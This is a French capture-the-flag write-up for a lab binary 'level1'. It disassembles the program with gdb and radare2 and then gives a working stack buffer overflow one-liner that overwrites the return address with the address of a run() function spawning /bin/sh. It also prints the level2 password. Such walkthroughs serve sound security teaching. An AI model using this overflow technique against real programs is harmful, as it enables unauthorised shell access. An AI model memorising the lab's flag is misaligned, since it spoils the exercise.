 Dans ce niveau on a un executable ```level1```

On va gdb et regarder le main  ```gdb level1```

```sh
(gdb) disas main
Dump of assembler code for function main:
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp
   0x08048486 <+6>:	sub    $0x50,%esp
   0x08048489 <+9>:	lea    0x10(%esp),%eax
   0x0804848d <+13>:	mov    %eax,(%esp)
   0x08048490 <+16>:	call   0x8048340 <gets@plt>
   0x08048495 <+21>:	leave  
   0x08048496 <+22>:	ret    
End of assembler dump.
```
Ensuite on va afficher toutes les fonctions presentes dans l'executable 

```sh
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
0x0804854c  _fini
```

En exportant l'executable en local on peut l'analyser avec ```radar2```

On va enchainer les commandes ```aaaaa``` (pour le max d'infos) et ```afl``` (pour les fonctions)

On va chercher a regarder la fonction ```run``` avec ```pdf @ sub.run_8048444```

```sh
[0x08048390]> pdf @ sub.run_8048444 
            ;-- run:
╭ 60: sub.run_8048444 ();
│ afv: vars(3:sp[0x10..0x18])
│           0x08048444      55             push ebp
│           0x08048445      89e5           mov ebp, esp
│           0x08048447      83ec18         sub esp, 0x18
│           0x0804844a      a1c0970408     mov eax, dword [obj.stdout] ; obj.stdout__GLIBC_2.0
│                                                                      ; [0x80497c0:4]=0
│           0x0804844f      89c2           mov edx, eax
│           0x08048451      b870850408     mov eax, str.Good..._Wait_what__n ; 0x8048570 ; "Good... Wait what?\n"
│           0x08048456      8954240c       mov dword [var_ch], edx
│           0x0804845a      c744240813..   mov dword [var_8h], 0x13    ; [0x13:4]=-1 ; 19
│           0x08048462      c744240401..   mov dword [var_4h], 1
│           0x0804846a      890424         mov dword [esp], eax
│           0x0804846d      e8defeffff     call sym.imp.fwrite
│           0x08048472      c704248485..   mov dword [esp], str._bin_sh ; [0x8048584:4]=0x6e69622f ; "/bin/sh"
│           0x08048479      e8e2feffff     call sym.imp.system
│           0x0804847e      c9             leave
╰           0x0804847f      c3             ret
``` 

On voit des chaines ecritent en 'dur' et un appel system avec ```/bin/sh``` c'est ce qu'on va cibler

Le but est donc de faire overflow le buffer de la fonction ```gets()``` du main pour ecraser le registre $EIP

On va faire un scrypt python pour ca ```(python -c 'print"A" * 76 + "\x44\x84\x04\x08"' && cat) | ./level1```

- 'print"A" * 76'
    - Remplir le buffeur de 76 octet pour creer l'overflow car le registre ```EIP``` est place juste apres
    - Il y a 80 octets d'alloue pour les variables locales ```0x08048486 <+6>:	sub    $0x50,%esp```
    - Donc 76 car le registre ```EIP``` prend ```4 octets``` supplementaire en systeme ```little-endian```
- '+ "\x44\x84\x04\x08"'
    - C'est pour remplir le registre ```EIP``` avec l'adresse de la fonction run ```0x08048444  run```
    - La notation en ```little-endian``` comme ici stock l'adresse ```44 84 04 08```
    - la notation en ```big-endian``` l'aurait note ```08 04 84 44``` en memoire
- '&& cat'
    - On veut garder ```stdin``` ouvert pour attendre une entree avant que le programme se coupe et que l'overflow se produise
- ' | ./level1'
    - On passe ce script au programme ```level1``` pour declencher l'overflow

Une fois le script lancee la fonction ```run()``` se lance pendant l'overflow

On recupere le flag avec ```cat /home/user/level2/.pass``` = ```53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77```
